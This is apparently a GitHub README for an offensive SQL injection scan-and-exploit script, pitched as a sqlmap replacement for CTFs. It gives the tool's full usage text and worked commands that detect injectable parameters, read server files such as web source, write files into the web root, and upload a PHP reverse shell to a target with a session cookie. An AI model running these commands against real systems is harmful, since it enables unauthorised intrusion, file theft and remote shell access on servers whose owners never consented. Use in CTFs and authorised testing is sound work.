 # sql_injection
A sql injection scan and exploit script

This script can be used if you can't use sqlmap, or for any restriction like wih some ctf.

It scan if a parameter is injectable , and also find how to exploit.

## Functions:

#### Scan
#### Found an injection
#### Read a file from the DBMS
#### Write a file into the DBMS
#### Upload a reverse shell into the DBMS 


## Use

```
usage: sql_injection [-h] --data DATA [-m METHOD] [--file-dest REMOTEPAH]
                     [--file-write LOCALPATH] [--file-read PATHTOREAD]
                     [--upload-revshell REVSHELLPATH] [-H HEADER] [-c COOKIES]
                     -u URL -p PARAMETER [-l LEVEL] [-v VERBOSE]

A sql injection scan and exploit script

optional arguments:
  -h, --help            show this help message and exit
  --data DATA           Data string to be sent through POST/GET Like
                        "category=2&productId=1&productName=name"
  -m METHOD, --method METHOD
                        Htp method to use for injection, set to POST by
                        default
  --file-dest REMOTEPAH
                        Back-end DBMS absolute filepath to write to
  --file-write LOCALPATH
                        Write a local file on the back-end DBMS file system
  --file-read PATHTOREAD
                        Read a local file on the back-end DBMS file system
  --upload-revshell REVSHELLPATH
                        Upload a rev shell in the host. The script verify if
                        rev-shell is accessible from outside
  -H HEADER             One or multiple header for the request, separate with
                        a space Use like 'key1:value1 key2:value2'
  -c COOKIES, --cookies COOKIES
                        One or multiple cookies values for the request,
                        separate with a space Use like 'PHPSESSID=shuv7rnuv
                        UserToken=yes'
  -u URL, --url URL     The url to use for sqli
  -p PARAMETER, --parameter PARAMETER
                        The injectable parameter
  -l LEVEL, --level LEVEL
                        The level of the scan (l|h) "l" for little, and "h"
                        for huge
  -v VERBOSE, --verbose VERBOSE
                        Define verbose output. set to False by default
```

## Examples

#### Found an injection

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId 
```

#### Read a file from the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-read "C:/Inetpub/wwwroot/view_product.php"
```

#### Write a file into the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-write /tmp/output.txt --file-dest "/InetPub/wwwroot/test.txt"
```

#### Upload a reverse shell into the DBMS 

```
$ sql_injection -u http://10.10.10.10:8080/complain/view.php -m GET -H "Agent:roughiz" --data "mod=admin&view=repod&id=plans" -p id  --cookie "PHPSESSID=9cc97jn016e2naklhp4rnj64j0"  --upload-revshell shell_cmd.php  -v 1
```


